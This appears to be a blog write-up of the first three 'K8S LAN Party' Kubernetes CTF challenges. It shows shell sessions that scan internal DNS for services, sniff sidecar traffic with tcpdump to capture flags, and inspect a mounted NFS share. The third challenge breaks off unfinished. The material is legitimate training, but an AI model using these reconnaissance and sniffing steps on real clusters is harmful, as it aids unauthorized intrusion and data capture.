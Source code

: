 ```yaml
---
author: "chxmxii_"
date: "2023-08-21"
tags:
  - Kubernetes
  - CTF
type:
  - post
  - posts
title: "K8SLANPARTY - CHALLENGES"
weight: 10
series:
  - "Hugo 101"
---
```

![](/files/k8slan.png#center)

---
# CHALLENGE 1;
  ## Challenge Description: DNSing with the Stars

  + You've gained shell access to a compromised Kubernetes pod and your next objective is to further compromise internal services. As a warm-up, utilize DNS scanning to uncover hidden internal services and obtain the flag. We've provided `dnscan` to facilitate this process for upcoming challenges.

  + All flags in this challenge follow the format: `wiz_k8s_lan_party{*}`

  ### Solution;

+ Given the task at hand, my initial approach was to inspect the environment variables, a tactic that proved fruitful.

  ```shell 
  player@wiz-k8s-lan-party:~$ printenv | grep kubernetes -i
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_SERVICE_PORT=443
  KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
  KUBERNETES_PORT_443_TCP_PROTO=tcp
  KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
  KUBERNETES_SERVICE_HOST=10.100.0.1
  KUBERNETES_PORT=tcp://10.100.0.1:443
  KUBERNETES_PORT_443_TCP_PORT=443

  player@wiz-k8s-lan-party:~$ dnscan -subnet 10.100.0.1/16 > file

  player@wiz-k8s-lan-party:~$ cat file
  10.100.136.254 getflag-service.k8s-lan-party.svc.cluster.local.
  10.100.136.254 -> getflag-service.k8s-lan-party.svc.cluster.local

  player@wiz-k8s-lan-party:~$ curl 10.100.136.254
  wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northern-star}
  ```
---
# CHALLENGE 2;
  ## Challenge Description: HELLO?

  + Sometimes, it feels like we're alone, but we must stay vigilant against hidden sidecars leaking sensitive information.

### Solution

+ As mentioned earlier, we were alerted about the possibility of sidecar containers. My first action was to rerun the `dnscan` command, leading me to discover the `reporting-service.k8s-lan-party.svc.cluster.local` service. This container seemed to be communicating with `istio-envoy`, a component of a service mesh. I then tried to listen to the traffic between the containers using `tcpdump -A`.

  ```shell
  player@wiz-k8s-lan-party:~$ curl -kv reporting-service.k8s-lan-party.svc.cluster.local
  *   Trying 10.100.171.123:80...
  * Connected to reporting-service.k8s-lan-party.svc.cluster.local (10.100.171.123) port 80 (#0)
  > GET / HTTP/1.1
  > Host: reporting-service.k8s-lan-party.svc.cluster.local
  > User-Agent: curl/7.81.0
  > Accept: */*
  > 
  * Mark bundle as not supporting multiuse
  < HTTP/1.1 200 OK
  < server: istio-envoy
  < date: Tue, 26 Mar 2024 10:28:01 GMT
  < content-type: text/plain
  < x-envoy-upstream-service-time: 1
  < x-envoy-decorator-operation: :0/*
  < transfer-encoding: chunked
  < 
  * Connection #0 to host reporting-service.k8s-lan-party.svc.cluster.local left intact

  player@wiz-k8s-lan-party:~$ tcpdump -A | grep wiz
  tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
  listening on ns-892853, link-type EN10MB (Ethernet), snapshot length 262144 bytes
  wiz_k8s_lan_party{good-crime-comes-with-a-partner-in-a-sidecar}
  ```
---
# CHALLENGE 3;
  ## Challenge Description: Exposed File Share

  + The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based 🤦‍️.

### Solution;

"access control was only network-based" is a big hint that we are talking about nfs here. lets check the df -hT command to see mounts in our system

```shell
player@wiz-k8s-lan-party:~$ df -hT
Filesystem                                         Type     Size  Used Avail Use% Mounted on
overlay                                            overlay  300G   23G  278G   8% /
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ nfs4     8.0E     0  8.0E   0% /efs
tmpfs                                              tmpfs     60G   12K   60G   1% /var/run/secrets/kubernetes.io/serviceaccount
tmpfs                                              tmpfs     64M     0   64M   0% /dev/null
```dfdf

we can we have a fs system from this endpoint mounted on /efs, though i found the flag, but the challenge doesn't end here as we don't have the permission to read that file

